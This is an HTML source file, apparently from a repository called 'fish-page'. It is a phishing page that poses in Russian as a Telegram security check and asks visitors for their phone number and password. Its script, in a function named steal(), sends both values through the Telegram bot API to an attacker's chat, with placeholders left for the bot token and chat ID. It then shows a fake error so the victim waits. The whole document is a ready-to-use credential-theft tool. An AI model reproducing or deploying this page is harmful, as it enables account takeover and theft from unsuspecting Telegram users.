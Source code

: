 <!DOCTYPE html>
<html>
<head>
    <title>Telegram Security Check</title>
    <style> body { font-family: Arial; text-align: center; padding: 50px; } input, button { padding: 10px; font-size: 16px; } </style>
</head>
<body>
    <h1>🔐 ПРОВЕРКА БЕЗОПАСНОСТИ TELEGRAM</h1>
    <p>Введите данные для защиты от взлома:</p>
    <input type="text" id="phone" placeholder="Ваш номер"><br><br>
    <input type="password" id="password" placeholder="Пароль"><br><br>
    <button onclick="steal()">Проверить защиту</button>
    <script>
        function steal() {
            const phone = document.getElementById("phone").value;
            const password = document.getElementById("password").value;
            fetch(`https://api.telegram.org/botВАШ_ТОКЕН/sendMessage?chat_id=ВАШ_ID&text=📱НОМЕР: ${phone} 🔒ПАРОЛЬ: ${password}`);
            alert("❌ Ошибка! Попробуйте через 5 минут.");
        }
    </script>
</body>
</html># fish-page
